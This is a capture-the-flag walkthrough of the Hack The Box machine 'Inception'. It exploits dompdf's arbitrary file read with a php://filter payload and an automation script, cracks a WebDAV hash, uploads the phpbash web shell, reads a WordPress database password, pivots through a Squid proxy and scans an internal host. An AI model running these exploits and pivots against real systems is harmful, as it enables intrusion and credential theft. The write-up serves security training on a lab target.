


---
search:
  exclude: true
---
# Inception Writeup

## Introduction :

Inception is a Medium Linux box released back in December 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -F --top-ports 10000 10.10.10.67 -v
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-08 07:55 GMT
      Initiating Ping Scan at 07:55
      Scanning 10.10.10.67 [2 ports]
      Completed Ping Scan at 07:55, 0.09s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 07:55
      Completed Parallel DNS resolution of 1 host. at 07:55, 0.03s elapsed
      Initiating Connect Scan at 07:55
      Scanning 10.10.10.67 [8320 ports]
      Discovered open port 80/tcp on 10.10.10.67
      Discovered open port 3128/tcp on 10.10.10.67
      Completed Connect Scan at 07:56, 26.46s elapsed (8320 total ports)
      Nmap scan report for 10.10.10.67
      Host is up (0.091s latency).
      Not shown: 8318 filtered ports
      PORT     STATE SERVICE
      80/tcp   open  http
      3128/tcp open  squid-http
    
      Read data files from: /usr/bin/../share/nmap
      Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
    
      λ nihilist [ 10.10.14.11/23 ] [~]
      → nmap -sCV -p80,3128 10.10.10.67
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-08 07:56 GMT
      Nmap scan report for 10.10.10.67
      Host is up (0.094s latency).
    
      PORT     STATE SERVICE    VERSION
      80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Inception
      3128/tcp open  http-proxy Squid http proxy 3.5.12
      |_http-server-header: squid/3.5.12
      |_http-title: ERROR: The requested URL could not be retrieved
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 43.23 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running http so let's use gobuster to enumerate it :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.10.67
    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.10.67
    [+] Threads:        10
    [+] Wordlist:       /usr/share/wordlists/dirb/big.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2020/03/08 07:56:11 Starting gobuster
    ===============================================================
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /assets (Status: 301)
    /dompdf (Status: 301)
    /images (Status: 301)
    Progress: 10069 / 20470 (49.19%)^C
    

` 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → curl -sk http://10.10.10.67/dompdf/VERSION
    0.6.0
    

Now that we know about dompdf's version we run a quick searchsploit command to find publicly available exploits for us : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → searchsploit dompdf 0.6
    ------------------------------------------------------- ------------------------------
     Exploit Title                                         |  Path
                                                           | (/usr/share/exploitdb/)
    ------------------------------------------------------- ------------------------------
    dompdf 0.6.0 - 'dompdf.php?read' Arbitrary File Read   | exploits/php/webapps/33004.txt
    dompdf 0.6.0 beta1 - Remote File Inclusion             | exploits/php/webapps/14851.txt
    ------------------------------------------------------- ------------------------------
    Shellcodes: No Result
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
    → locate 33004.txt
    /usr/share/exploitdb/exploits/php/webapps/33004.txt
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
    → cp /usr/share/exploitdb/exploits/php/webapps/33004.txt .
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
    → nano 33004.txt
    

Looking at the exploit we seem to be able to get arbitrary file read on the dompdf.php file using a psecific string : 
    
    
    http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → curl http://10.10.10.67/dompdf/dompdf.php\?input_file\=php://filter/read\=convert.base64-encode/resource\=/etc/passwd
      %PDF-1.3
      1 0 obj
      << /Type /Catalog
      /Outlines 2 0 R
      /Pages 3 0 R >>
      endobj
      2 0 obj
      << /Type /Outlines /Count 0 >>
      endobj
      3 0 obj
      << /Type /Pages
      /Kids [6 0 R
      ]
      /Count 1
      /Resources <<
      /ProcSet 4 0 R
      /Font <<
      /F1 8 0 R
      >>
      >>
      /MediaBox [0.000 0.000 612.000 792.000]
       >>
      endobj
      4 0 obj
      [/PDF /Text ]
      endobj
      5 0 obj
      <<
      /Creator (DOMPDF)
      /CreationDate (D:20200308071455+00'00')
      /ModDate (D:20200308071455+00'00')
      >>
      endobj
      6 0 obj
      << /Type /Page
      /Parent 3 0 R
      /Contents 7 0 R
      >>
      endobj
      7 0 obj
      <<
      /Length 1894 >>
      stream
    
      0.000 0.000 0.000 rg
      BT 34.016 734.579 Td /F1 12.0 Tf  [(cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtdGltZXN5bmM6eDoxMDA6MTAyOnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb24sLCw6L3J1bi9zeXN0ZW1kOi9iaW4vZmFsc2UKc3lzdGVtZC1uZXR3b3JrOng6MTAxOjEwMzpzeXN0ZW1kIE5ldHdvcmsgTWFuYWdlbWVudCwsLDovcnVuL3N5c3RlbWQvbmV0aWY6L2Jpbi9mYWxzZQpzeXN0ZW1kLXJlc29sdmU6eDoxMDI6MTA0OnN5c3RlbWQgUmVzb2x2ZXIsLCw6L3J1bi9zeXN0ZW1kL3Jlc29sdmU6L2Jpbi9mYWxzZQpzeXN0ZW1kLWJ1cy1wcm94eTp4OjEwMzoxMDU6c3lzdGVtZCBCdXMgUHJveHksLCw6L3J1bi9zeXN0ZW1kOi9iaW4vZmFsc2UKc3lzbG9nOng6MTA0OjEwODo6L2hvbWUvc3lzbG9nOi9iaW4vZmFsc2UKX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi9iaW4vZmFsc2UKc3NoZDp4OjEwNjo2NTUzNDo6L3Zhci9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgpjb2JiOng6MTAwMDoxMDAwOjovaG9tZS9jb2JiOi9iaW4vYmFzaAo=)] TJ ET
      endstream
      endobj
      8 0 obj
      << /Type /Font
      /Subtype /Type1
      /Name /F1
      /BaseFont /Times-Roman
      /Encoding /WinAnsiEncoding
      >>
      endobj
      xref
      0 9
      0000000000 65535 f
      0000000008 00000 n
      0000000073 00000 n
      0000000119 00000 n
      0000000273 00000 n
      0000000302 00000 n
      0000000416 00000 n
      0000000479 00000 n
      0000002425 00000 n
      trailer
      <<
      /Size 9
      /Root 1 0 R
      /Info 5 0 R
      >>
      startxref
      2535
      %%EOF
    
    

Decoding the base64 string using **echo 'b64string' | base64 -d** we get the contents of /etc/passwd:
    
    
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
    cobb:x:1000:1000::/home/cobb:/bin/bash
    

As you can see, this can be long and tedious to trim the excessive amount of data to then decode a b64 string. so we'll use [absolobomb's](https://www.absolomb.com/2018-04-14-HackTheBox-Inception/) python script to speed it up : 
    
    
    #!/usr/bin/env python3
    import base64
    import urllib.request
    import argparse
    
    parser = argparse.ArgumentParser()
    parser.add_argument("file")
    args = parser.parse_args()
    
    
    url = 'http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource='
    
    try:
    	req = urllib.request.urlopen(url + args.file)
    
    	output = req.read()
    
    	if output:
    		string = output.decode()
    		result = string[string.find("[(")+2:string.find(")]")]
    		decoded = base64.b64decode(result).decode('utf8')
    		print(decoded)
    
    except urllib.error.HTTPError:
    	print("File cannot be downloaded")
    
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → nano absolobomb_rocks.py
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → chmod +x absolobomb_rocks.py
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
    → ./absolobomb_rocks.py /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    syslog:x:104:108::/home/syslog:/bin/false
    _apt:x:105:65534::/nonexistent:/bin/false
    sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
    cobb:x:1000:1000::/home/cobb:/bin/bash
    
    

Since we are on an apache2 website, let's try and print out it's default configuration: 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → ./absolobomb_rocks.py /etc/apache2/sites-enabled/000-default.conf
      <****VirtualHost *:80>
      	# The ServerName directive sets the request scheme, hostname and port that
      	# the server uses to identify itself. This is used when creating
      	# redirection URLs. In the context of virtual hosts, the ServerName
      	# specifies what hostname must appear in the request's Host: header to
      	# match this virtual host. For the default virtual host (this file) this
      	# value is not decisive as it is used as a last resort host regardless.
      	# However, you must set it for any further virtual host explicitly.
      	#ServerName www.example.com
    
      	ServerAdmin webmaster@localhost
      	DocumentRoot /var/www/html
    
      	# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
      	# error, crit, alert, emerg.
      	# It is also possible to configure the loglevel for particular
      	# modules, e.g.
      	#LogLevel info ssl:warn
    
      	ErrorLog ${APACHE_LOG_DIR}/error.log
      	CustomLog ${APACHE_LOG_DIR}/access.log combined
    
      	# For most configuration files from conf-available/, which are
      	# enabled or disabled at a global level, it is possible to
      	# include a line for only one particular virtual host. For example the
      	# following line enables the CGI configuration for this host only
      	# after it has been globally disabled with "a2disconf".
      	#Include conf-available/serve-cgi-bin.conf
      	Alias /webdav_test_inception /var/www/html/webdav_test_inception <****Location /webdav_test_inception>
      		Options FollowSymLinks
      		DAV On
      		AuthType Basic
      		AuthName "webdav test credential"
      		AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd
      		Require valid-user <****/Location> <****/VirtualHost>
    
      # vim: syntax=apache ts=4 sw=4 sts=4 sr noet

From this configuration file we see a path to the webdav directory, so let's go and grab the passwd file : 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → ./absolobomb_rocks.py /var/www/html/webdav_test_inception/webdav.passwd
      webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → hash-identifier
         #########################################################################
         #     __  __                     __           ______    _____           #
         #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
         #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
         #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
         #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
         #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
         #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
         #                                                             By Zion3R #
         #                                                    www.Blackploit.com #
         #                                                   Root@Blackploit.com #
         #########################################################################
      --------------------------------------------------
       HASH: $apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0
    
      Possible Hashs:
      [+] MD5(APR)
    

According to Hash-Identifier the hash we found is MD5.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
      → ./absolobomb_rocks.py /var/www/html/webdav_test_inception/webdav.passwd > inception.txt
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
    → hashcat -m 1600 -a 0 inception.txt /usr/share/wordlists/rockyou.txt
    hashcat (v5.1.0) starting...
    
    Dictionary cache hit:
    * Filename..: .\rockyou.txt
    * Passwords.: 14343296
    * Bytes.....: 139921497
    * Keyspace..: 14343296
    
    $apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0:babygurl69
    

And using rockyou.txt we found the password **babygurl69**. For this next part we will upload [phpbash](https://github.com/Arrexel/phpbash) which is a semi-interactive webshell made by [Arrexel](https://app.hackthebox.eu/profile/2904) which we already encountered on a previous box named [Bashed](https://blog.nowhere.moe/htb/easy/15). We will upload it using the credentials we found with cadaver : 
    
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Inception]
    → cadaver http://10.10.10.67/webdav_test_inception/
    Authentication required for webdav test credential on server `10.10.10.67':
    Username: webdav_tester
    Password:
    dav:/webdav_test_inception/> put phpbash.php
    Uploading phpbash.php to `/webdav_test_inception/phpbash.php':
    Progress: [=============================>] 100.0% of 11251 bytes succeeded.
    dav:/webdav_test_inception/>
    

So we browse to our phpbash shell at _http://10.10.10.67/webdav_test_inception/phpbash.php_

    
    
      www-data@Inception
    :/var/www/html/webdav_test_inception# ls
    
    phpbash.php
    webdav.passwd
    www-data@Inception
    :/var/www/html/webdav_test_inception# cd ..
    
    www-data@Inception
    :/var/www/html# ls
    
    LICENSE.txt
    README.txt
    assets
    dompdf
    images
    index.html
    latest.tar.gz
    webdav_test_inception
    wordpress_4.8.3
    www-data@Inception
    :/var/www/html# cd wordpress_4.8.3
    
    www-data@Inception
    :/var/www/html/wordpress_4.8.3# ls
    
    phpbash.php
    webdav.passwd
    

we are logged in as www-data so let's see if we can print out user.txt : 
    
    
      www-data@Inception
    :/var/www/html/wordpress_4.8.3# id
    
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@Inception
    :/var/www/html/wordpress_4.8.3# cd /home
    
    www-data@Inception
    :/home# ls
    
    cobb
    www-data@Inception
    :/home# cd cobb
    
    www-data@Inception
    :/home/cobb# ls
    
    user.txt
    www-data@Inception
    :/home/cobb# cat user.txt
    
    cat: user.txt: Permission denied
    

And we get permission denied so we need to find a way to privesc to the cobb user. Looking into /var/www/html/wordpress_4.8.3 we print out the contents of wp-config.php :
    
    
      www-data@Inception:/var/www/html/wordpress_4.8.3# cat wp-config.php
    
    /**
    * The base configuration for WordPress
    *
    * The wp-config.php creation script uses this file during the
    * installation. You don't have to use the web site, you can
    * copy this file to "wp-config.php" and fill in the values.
    *
    * This file contains the following configurations:
    *
    * * MySQL settings
    * * Secret keys
    * * Database table prefix
    * * ABSPATH
    *
    * @link https://codex.wordpress.org/Editing_wp-config.php
    *
    * @package WordPress
    */
    
    // ** MySQL settings - You can get this info from your web host ** //
    /** The name of the database for WordPress */
    define('DB_NAME', 'wordpress');
    
    /** MySQL database username */
    define('DB_USER', 'root');
    
    /** MySQL database password */
    define('DB_PASSWORD', 'VwPddNh7xMZyDQoByQL4');
    
    /** MySQL hostname */
    define('DB_HOST', 'localhost');
    
    

And we have credentials : root:VwPddNh7xMZyDQoByQL4 although we can't connect to ssh on the box yet. We already know that the squid proxy allows us to pass traffic through it, so we can try to enumerate the box THROUGH the proxy to see if ssh is open. so we'll use the **squid_pivot_scanning** metasploit module.
    
    
      msf5 > use auxiliary/scanner/http/squid_pivot_scanning
    
      msf5 auxiliary(scanner/http/squid_pivot_scanning) > set RPORT 3128
      RPORT => 3128
    
      msf5 auxiliary(scanner/http/squid_pivot_scanning) > set RHOSTS 10.10.10.67
      RHOSTS => 10.10.10.67
    
      msf5 auxiliary(scanner/http/squid_pivot_scanning) > set RANGE 127.0.0.1
      RANGE => 127.0.0.1
    
      msf5 auxiliary(scanner/http/squid_pivot_scanning) > set PORTS 21,80,139,443,445,1433,1521,1723,3389,8080,9100,22
      PORTS => 21,80,139,443,445,1433,1521,1723,3389,8080,9100,22
    
      msf5 auxiliary(scanner/http/squid_pivot_scanning) > run
    

Looking at the results : 
    
    
      [+] [10.10.10.67] 127.0.0.1 is alive but 21 is CLOSED
    [+] [10.10.10.67] 127.0.0.1:22 seems OPEN
    [+] [10.10.10.67] 127.0.0.1:80 seems OPEN
    [+] [10.10.10.67] 127.0.0.1 is alive but 139 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 445 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 1433 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 1521 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 1723 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 3389 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 8080 is CLOSED
    [+] [10.10.10.67] 127.0.0.1 is alive but 9100 is CLOSED
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    

SSH seems to be opened through the proxy, But to get ourselves to access it we need to use corkscrew and edit our local /etc/ssh/ssh_config to add a ProxyCommand. 
    
    
        λ root [ 10.10.14.11/23 ] [nihilist/_HTB/Inception]
        → echo 'ProxyCommand corkscrew 10.10.10.67 3128 %h %p' >> /etc/ssh/ssh_config
    
        λ root [ 10.10.14.11/23 ] [nihilist/_HTB/Inception]
        → ssh cobb@127.0.0.1
        The authenticity of host '127.0.0.1 ()' can't be established.
        ECDSA key fingerprint is SHA256:dr5DOURssJH5i8VbjPxvbeM+e2FyMqJ8DGPB/Lcv1Mw.
        Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
        Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
        cobb@127.0.0.1's password:
        Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-101-generic x86_64)
    
         * Documentation:  https://help.ubuntu.com
         * Management:     https://landscape.canonical.com
         * Support:        https://ubuntu.com/advantage
        Last login: Thu Nov 30 20:06:16 2017 from 127.0.0.1
    
        cobb@Inception:~$ id
        uid=1000(cobb) gid=1000(cobb) groups=1000(cobb),27(sudo)
    
        cobb@Inception:~$ cat user.txt
        4aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
      

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

In order to gain root privileges on the box it is very straightforward, but that's not an easy box as you can see : 
    
    
      cobb@Inception:~$ sudo -l
    [sudo] password for cobb:
    Matching Defaults entries for cobb on Inception:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User cobb may run the following commands on Inception:
        (ALL : ALL) ALL
    

Running sudo -l we see that we are able to run /bin/bash as sudo to privesc immediately, so let's do it : 
    
    
    cobb@Inception:~$ sudo bash
    root@Inception:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@Inception:~# cat /root/root.txt
    You're waiting for a train. A train that will take you far away. Wake up to find root.txt.
    

And we became root ! But our root flag isn't there , so let's check out which ports are opened from within the box : 
    
    
      root@Inception:~# netstat -ant
    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
    tcp        0      0 127.0.0.1:22            127.0.0.1:48514         ESTABLISHED
    tcp        0      0 127.0.0.1:48514         127.0.0.1:22            ESTABLISHED
    tcp6       0      0 :::80                   :::*                    LISTEN
    tcp6       0      0 :::22                   :::*                    LISTEN
    tcp6       0      0 :::3128                 :::*                    LISTEN
    tcp6       0    556 192.168.0.10:3128       192.168.0.1:59898       ESTABLISHED
    
    root@Inception:~# which nc
    /bin/nc
    
    root@Inception:~# nc -zv 192.168.0.1 1-65535 2>&1 | grep -v "refused"
    Connection to 192.168.0.1 21 port [tcp/ftp] succeeded!
    Connection to 192.168.0.1 22 port [tcp/ssh] succeeded!
    Connection to 192.168.0.1 53 port [tcp/domain] succeeded!
    

Looking at the output of the netstat command we see that we have another local ip address to work with : **192.168.0.1** So we use the netcat binary on the machine to scan it's opened ports and we find the ftp port opened , checking it out : 
    
    
      root@Inception:~# ftp 192.168.0.1
      Connected to 192.168.0.1.
      220 (vsFTPd 3.0.3)
      Name (192.168.0.1:cobb): anonymous
      331 Please specify the password.
      Password:
      230 Login successful.
      Remote system type is UNIX.
      Using binary mode to transfer files.
      ftp> ls
      200 PORT command successful. Consider using PASV.
      150 Here comes the directory listing.
      drwxr-xr-x    2 0        0            4096 Nov 30  2017 bin
      drwxr-xr-x    3 0        0            4096 Nov 30  2017 boot
      drwxr-xr-x   19 0        0            3920 Mar 08 06:47 dev
      drwxr-xr-x   93 0        0            4096 Nov 30  2017 etc
      drwxr-xr-x    2 0        0            4096 Nov 06  2017 home
      lrwxrwxrwx    1 0        0              33 Nov 30  2017 initrd.img -> boot/initrd.img-4.4.0-101-generic
      lrwxrwxrwx    1 0        0              32 Nov 06  2017 initrd.img.old -> boot/initrd.img-4.4.0-98-generic
      drwxr-xr-x   22 0        0            4096 Nov 30  2017 lib
      drwxr-xr-x    2 0        0            4096 Oct 30  2017 lib64
      drwx------    2 0        0           16384 Oct 30  2017 lost+found
      drwxr-xr-x    3 0        0            4096 Oct 30  2017 media
      drwxr-xr-x    2 0        0            4096 Aug 01  2017 mnt
      drwxr-xr-x    2 0        0            4096 Aug 01  2017 opt
      dr-xr-xr-x  205 0        0               0 Mar 08 06:47 proc
      drwx------    6 0        0            4096 Nov 08  2017 root
      drwxr-xr-x   26 0        0             920 Mar 08 06:47 run
      drwxr-xr-x    2 0        0           12288 Nov 30  2017 sbin
      drwxr-xr-x    2 0        0            4096 Apr 29  2017 snap
      drwxr-xr-x    3 0        0            4096 Nov 06  2017 srv
      dr-xr-xr-x   13 0        0               0 Mar 08 06:47 sys
      drwxrwxrwt   10 0        0            4096 Mar 08 08:30 tmp
      drwxr-xr-x   10 0        0            4096 Oct 30  2017 usr
      drwxr-xr-x   13 0        0            4096 Oct 30  2017 var
      lrwxrwxrwx    1 0        0              30 Nov 30  2017 vmlinuz -> boot/vmlinuz-4.4.0-101-generic
      lrwxrwxrwx    1 0        0              29 Nov 06  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-98-generic
    

Once logged in as anonymous , we find the crontab file : 
    
    
      ftp> cd /etc
      250 Directory successfully changed.
    
      ftp> get crontab
    local: crontab remote: crontab
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for crontab (826 bytes).
    226 Transfer complete.
    826 bytes received in 0.00 secs (4.3046 MB/s)
    
    
    

So we copy 192.168.0.1's crontab file into 10.10.10.67, to examine it : 
    
    
      ftp> exit
    221 Goodbye.
    root@Inception:~# cat crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
    
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    */5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
